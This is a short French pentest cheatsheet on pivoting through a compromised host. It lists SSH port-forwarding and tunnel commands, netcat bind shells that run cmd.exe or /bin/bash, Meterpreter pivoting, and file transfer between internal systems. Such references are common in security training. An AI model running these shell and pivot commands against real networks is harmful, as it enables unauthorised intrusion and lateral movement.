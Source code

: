```yaml
---
description: Pivotage - Cheatsheet
---
```


# Pivotage

1. <mark style="color:yellow;">Prérequis :</mark>
   * Avoir compromis un système sur le réseau cible (par exemple, un serveur ou un poste de travail).
   * Disposer de privilèges suffisants sur le système compromis pour effectuer des actions supplémentaires.
2. _<mark style="color:yellow;">Utilisation de SSH pour le pivotage (port forwarding)</mark>_ <mark style="color:yellow;"></mark><mark style="color:yellow;">:</mark>
   * `ssh -L <port_local>:<adresse_destination>:<port_destination> <utilisateur>@<hôte>` : Transfert de port local vers le système distant.
3. <mark style="color:yellow;">Utilisation de Netcat pour le pivotage :</mark>
   * Sur la machine compromise :
   * `nc -l -p <port_local> -e cmd.exe` (Windows)
   * `nc -l -p <port_local> -e /bin/bash` (Linux) : Attendre les connexions sur le port local.
   * Sur la machine d'attaque : `nc <hôte_compromis> <port_local>` : Se connecter au port local pour accéder au système distant.
4. <mark style="color:yellow;">Utilisation de Meterpreter pour le pivotage (Metasploit) :</mark>
   * Sur la machine compromise : Utilisez un payload Meterpreter adapté aux privilèges et au système cible (Windows/Linux).
   * Utilisez les commandes Meterpreter pour établir des connexions aux autres machines internes depuis le système compromis.
5. <mark style="color:yellow;">Utilisation de tunnels pour le pivotage :</mark>
   * `ssh -L <port_local>:<adresse_interne>:<port_interne> <utilisateur>@<hôte_intermédiaire>` : Créer un tunnel SSH vers un hôte intermédiaire, puis vers un hôte interne.
6. <mark style="color:yellow;">Transfert de fichiers entre systèmes internes :</mark>
   * Utilisez des commandes telles que scp ou netcat pour transférer des fichiers entre les systèmes internes accessibles depuis la machine compromise.
